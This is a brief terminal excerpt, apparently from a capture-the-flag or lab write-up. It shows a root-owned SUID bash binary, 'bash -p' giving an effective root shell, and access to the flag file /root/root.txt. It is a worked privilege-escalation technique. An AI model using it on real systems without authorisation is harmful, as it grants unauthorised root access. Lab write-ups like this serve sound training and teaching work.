 ```bash
-rwsr-sr-x 1 root root 1183448 Apr 18 09:14 /usr/bin/bash
bash -p
id
uid=1000(developer) gid=1000(developer) euid=0(root) egid=0(root) groups=0(root),1000(developer)
cd /root/
wc -c root.txt
33 root.txt
```
